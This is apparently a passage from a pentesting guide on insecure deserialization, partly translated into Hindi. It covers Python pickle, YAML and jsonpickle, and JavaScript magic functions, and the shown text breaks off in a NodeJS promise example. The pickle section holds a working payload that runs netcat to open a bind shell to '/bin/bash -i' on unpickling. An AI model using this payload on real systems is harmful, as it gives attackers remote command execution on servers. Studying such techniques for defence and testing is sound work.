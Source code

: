 ### **Pickle**

जब ऑब्जेक्ट unpickle होता है, तो फ़ंक्शन _\_\_reduce\_\__ निष्पादित होगा।\
जब इसका दुरुपयोग किया जाता है, तो सर्वर एक त्रुटि वापस कर सकता है।
```python
import pickle, os, base64
class P(object):
def __reduce__(self):
return (os.system,("netcat -c '/bin/bash -i' -l -p 1234 ",))
print(base64.b64encode(pickle.dumps(P())))
```
For more information about escaping from **pickle jails** check:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

### Yaml **&** jsonpickle

The following page present the technique to **abuse an unsafe deserialization in yamls** python libraries and finishes with a tool that can be used to generate RCE deserialization payload for **Pickle, PyYAML, jsonpickle and ruamel.yaml**:

{% content-ref url="python-yaml-deserialization.md" %}
[python-yaml-deserialization.md](python-yaml-deserialization.md)
{% endcontent-ref %}

### Class Pollution (Python Prototype Pollution)

{% content-ref url="../../generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution.md" %}
[class-pollution-pythons-prototype-pollution.md](../../generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution.md)
{% endcontent-ref %}

## NodeJS

### JS Magic Functions

JS **"जादुई" फ़ंक्शन** नहीं है जैसे PHP या Python जो केवल एक ऑब्जेक्ट बनाने के लिए निष्पादित होंगे। लेकिन इसमें कुछ **फ़ंक्शन** हैं जो **सीधे उन्हें कॉल किए बिना भी अक्सर उपयोग किए जाते हैं** जैसे **`toString`**, **`valueOf`**, **`toJSON`**।\
यदि आप एक deserialization का दुरुपयोग करते हैं तो आप **इन फ़ंक्शनों को अन्य कोड निष्पादित करने के लिए समझौता कर सकते हैं** (संभावित रूप से प्रोटोटाइप प्रदूषण का दुरुपयोग करते हुए) आप जब इन्हें कॉल करते हैं तो मनमाना कोड निष्पादित कर सकते हैं।

एक और **"जादुई" तरीका फ़ंक्शन को कॉल करने का** बिना सीधे इसे कॉल किए **एक ऑब्जेक्ट को समझौता करना है जो एक async फ़ंक्शन** (प्रॉमिस) द्वारा लौटाया जाता है। क्योंकि, यदि आप उस **रिटर्न ऑब्जेक्ट** को एक अन्य **प्रॉमिस** में **"then" नामक फ़ंक्शन प्रकार की प्रॉपर्टी** के साथ **परिवर्तित** करते हैं, तो यह **निष्पादित** होगा बस इसलिए कि यह एक अन्य प्रॉमिस द्वारा लौटाया गया है। _अधिक जानकारी के लिए_ [_**इस लिंक**_](https://blog.huli.tw/2022/07/11/en/googlectf-2022-horkos-writeup/) _का पालन करें._
```javascript
// If you can compromise p (returned object) to be a promise
// it will be executed just because it's the return object of an async function:
async function test_resolve() {
const p = new Promise(resolve => {
console.log('hello')
resolve()
})
return p
}

async function test_then() {
const p = new Promise(then => {
```